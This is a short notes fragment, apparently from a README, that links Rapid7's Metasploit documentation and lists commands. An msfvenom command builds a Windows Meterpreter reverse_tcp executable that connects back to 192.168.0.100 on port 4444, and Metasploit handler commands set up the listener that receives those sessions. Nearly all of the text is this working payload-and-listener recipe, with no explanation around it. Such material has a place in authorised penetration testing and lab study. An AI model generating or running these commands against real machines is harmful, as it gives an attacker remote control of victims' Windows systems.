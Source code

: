 https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/  

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 --format=exe > _mtr_paylod.exe  

> msf> use exploit/multi/handler  

> msf> set payload windows/meterpreter/reverse_tcp  
> msf> set lhost eth0  
> msf> set lport 4444  
> msf> set ExitOnSession false  
> msf> exploit -j  

---

